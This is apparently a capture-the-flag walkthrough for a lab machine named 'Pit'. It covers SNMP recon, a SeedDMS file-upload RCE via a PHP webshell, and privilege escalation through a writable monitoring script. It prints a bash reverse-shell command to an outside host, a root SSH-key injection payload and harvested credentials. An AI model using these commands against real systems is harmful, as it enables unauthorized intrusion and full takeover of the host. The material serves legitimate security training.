









# Pit

## Machine Info



## Recon

### port

nmap

- tcp
  - 80 http
  - 9090 ssl

```console
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
|_http-server-header: nginx/1.14.1
9090/tcp open  ssl/zeus-admin?
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
| Not valid before: 2020-04-16T23:29:12
|_Not valid after:  2030-06-04T16:09:12
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
|     Content-Type: text/html; charset=utf8
|     Transfer-Encoding: chunked
|     X-DNS-Prefetch-Control: off
|     Referrer-Policy: no-referrer
|     X-Content-Type-Options: nosniff
|     Cross-Origin-Resource-Policy: same-origin
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>
|     request
|     </title>
|     <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <style>
|     body {
|     margin: 0;
|     font-family: "RedHatDisplay", "Open Sans", Helvetica, Arial, sans-serif;
|     font-size: 12px;
|     line-height: 1.66666667;
|     color: #333333;
|     background-color: #f5f5f5;
|     border: 0;
|     vertical-align: middle;
|     font-weight: 300;
|_    margin: 0 0 10p
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 5.X|3.X|4.X (91%), Crestron 2-Series (86%), HP embedded (85%), Oracle VM Server 3.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:oracle:vm_server:3.4.2 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 5.0 (91%), Linux 3.10 - 4.11 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (90%), Linux 3.18 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%), Oracle VM Server 3.4.2 (Linux 4.1) (85%)
No exact OS matches for host (test conditions non-ideal).
```

- udp
  - 161 snmp

```console
udp:
PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    filtered      dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   filtered      isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```

### snmp

- snmpwalk

```console
snmpwalk -v2c -c public 10.10.10.241 . | tee snmpwalk-v2c
```



Findings:

- User:

  - root

  - michelle


- Web path:
  - /var/www/html/seeddms51x/seeddms


- Local Path:
  - /dev/mapper/*

### domain names

- `pit.htb`
- `dms-pit.htb`

### SeedDSM



## Foothold

### SeedDMS 5.1.10 RCE

- default credential login: `michelle:michelle`

- notice a upgrade note:
  - SeedDMS 5.1.10 -> 5.1.15
  - email: admin@pit.htb





- Unfortunately, it seems that the upgrade progress is not finished the vulnerability of 5.1.10 is still there
  - [CVE-2019–12744: Remote Command Execution through Unvalidated File Upload in SeedDMS versions < 5.1.11 | by Bryan Leong (NobodyAtall) | Medium](https://bryanleong98.medium.com/cve-2019-12744-remote-command-execution-through-unvalidated-file-upload-in-seeddms-versions-5-1-1-5c32d90fda28)
  - [SeedDMS versions < 5.1.11 - Remote Command Execution - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/47022)

**Exploit**:

1. upload a document: `http://dms-pit.htb/seeddms51x/seeddms/out/out.ViewDocument.php?documentid=<DOC_ID>&showtree=1`, it could be visited as `http://dms-pit.htb/seeddms51x/data/1048576/<DOC_ID>/1.php`



2. POC check
   - id [ok]
   - ping [x]

```console
└─╼$ curl -G --data-urlencode 'cmd=id' http://dms-pit.htb/seeddms51x/data/1048576/32/1.php
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
```

3. trigger a reverse shell, notice that the shell is limited (cannot open some dirs and unable to use some commands => **SELinux**)

```console
└─╼$ curl -G --data-urlencode 'cmd=bash -i >&/dev/tcp/10.10.14.14/4444 0>&1' http://dms-pit.htb/seeddms51x/data/1048576/33/1.php

---

└─╼$ sudo rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.241] 57068
bash: cannot set terminal process group (10789): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ id
id
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
bash-4.4$ uname -a
uname -a
Linux pit.htb 4.18.0-305.10.2.el8_4.x86_64 #1 SMP Tue Jul 20 17:25:16 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

4. enum db config: `seeddms:ied^ieY6xoquu`



5. login `https://pit.htb:9090/system`





## Privilege Escalation

linpeas output:

```console
╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls
# file: /usr/local/monitoring
USER   root      rwx
user   michelle  -wx
GROUP  root      rwx
mask             rwx
other            ---
```

the same command line:

```console
[michelle@pit monitoring]$ getfacl /usr/local/monitoring
getfacl: Removing leading '/' from absolute path names
# file: usr/local/monitoring
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---
```

For michelle, `/usr/local/monitoring` is wriable and executable. After checking the snmpwalk output, we can know that the `/usr/bin/monitor` triggers monitoring's scripts

```console
└─╼$ cat ../snmp-walk-v2c | grep '/usr/bin'
iso.3.6.1.2.1.25.4.2.1.4.1023 = STRING: "/usr/bin/dbus-daemon"
iso.3.6.1.2.1.25.4.2.1.4.1027 = STRING: "/usr/bin/VGAuthService"
iso.3.6.1.2.1.25.4.2.1.4.1028 = STRING: "/usr/bin/vmtoolsd"
iso.3.6.1.4.1.8072.1.3.2.2.1.2.6.109.101.109.111.114.121 = STRING: "/usr/bin/free"
iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
```

```console
[michelle@pit ~]$ ls -l /usr/bin/monitor
-rwxr--r--. 1 root root 88 Apr 18  2020 /usr/bin/monitor
[michelle@pit ~]$ ls -l /usr/local/monitoring
ls: cannot open directory '/usr/local/monitoring': Permission denied

[michelle@pit ~]$ cat /usr/bin/monitor
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

So, if we can writable some script into `/usr/local/monitoring` and trigger root to exeucte `/usr/bin/monitor`, then we can have a command injection.

**Exploit**:

1. writable exploit code into monitoring directory

```console
echo 'mkdir -p /root/.ssh;echo "ssh-rsa AAAAB...DtCkbPE= qwe@kali">/root/.ssh/authorized_keys;echo "[+] finish inserting";ping -c 1 10.10.14.14'> /usr/local/monitoring/check_qwe.sh
```

2. trigger monitor command by using snmpwalk; below shows inserting pub key is finished, while ping command is failed

```console
└─╼$ snmpwalk -On -v2c -c public 10.10.10.241 1.3.6.1.4.1.8072
.1.3.6.1.4.1.8072.1.3.2.1.0 = INTEGER: 2
.1.3.6.1.4.1.8072.1.3.2.2.1.2.6.109.101.109.111.114.121 = STRING: "/usr/bin/free"
.1.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
...
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.1 = STRING: "Database status"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.2 = STRING: "OK - Connection to database successful."
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.3 = STRING: "[+] finish inserting"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.4 = STRING: "ping: cap_set_proc: Permission denied"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.5 = STRING: "System release info"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.6 = STRING: "CentOS Linux release 8.3.2011"
.1.3.6.1.4.1.8072.1.3.2.4.1.2.10.109.111.110.105.116.111.114.105.110.103.7 = STRING: "SELinux Settings"
...
```

3. connect using ssh: `ssh root@$IP`

## Exploit Chain

port scan -> 80 http, 9090 ssl login page (tcp), snmp(udp) -> snmp num: web path, usernames, domain names -> SeedDMS login page with michelle default -> upgrade note and changelog file to check version -> 5.1.10 RCE ok -> nginx shell -> db enum: password -> 9090 login with michelle and password -> michelle shell -> enum file ACLs -> command triggers scripts whose dir is writable and executable for michella -> writable exploit code and trigger it using snmpwalk
